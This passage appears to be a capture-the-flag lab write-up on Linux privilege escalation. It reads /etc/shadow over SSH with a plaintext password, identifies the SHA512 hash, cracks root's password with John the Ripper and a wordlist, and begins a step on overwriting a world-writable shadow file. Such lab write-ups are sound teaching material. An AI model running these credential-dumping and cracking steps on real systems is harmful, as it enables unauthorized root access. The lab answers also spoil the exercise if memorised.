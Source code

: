 **On the Workstation**

```bash
$ sshpass -p "password321" ssh user@10.10.48.224 cat /etc/shadow | grep root > root.hash 
$ cat root.hash 
root:$6$Tb/euwmK$OXA.dwMeOAcopwBl68boTG5zi65wIHsc84OWAIye5VITLLtVlaXvRDJXET..it8r.jbrlpfZeMdwD3B0fGxJI0:17298:0:99999:7:::
```

Answer: `$6$Tb/euwmK$OXA.dwMeOAcopwBl68boTG5zi65wIHsc84OWAIye5VITLLtVlaXvRDJXET..it8r.jbrlpfZeMdwD3B0fGxJI0`

## #2 - What hashing algorithm was used to produce the root user's password hash?

The format of the password is `$id$salt$hash` with possible values for the id:
* $1$: MD5
* $2a$: Blowfish
* $2y$: Blowfish
* $5$: SHA256
* $6$: SHA512

`$6$` is for SHA512. John the Ripper will give this information.

Answer: `sha512crypt`

## #3 - What is the root user's password?

```bash
$ /data/src/john/run/john root.hash --wordlist=/data/src/wordlists/rockyou.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (sha512crypt, crypt(3) $6$ [SHA512 256/256 AVX2 4x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
password123      (root)
1g 0:00:00:00 DONE (2020-05-31 19:54) 2.500g/s 5120p/s 5120c/s 5120C/s kucing..lovers1
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

Answer: `password123`

# [Task 4] Weak File Permissions - Writable /etc/shadow

The /etc/shadow file contains user password hashes and is usually readable only by the root user.

Note that the /etc/shadow file on the VM is world-writable:

```bash
ls -l /etc/shadow
```

Generate a new password hash with a password of your choice:
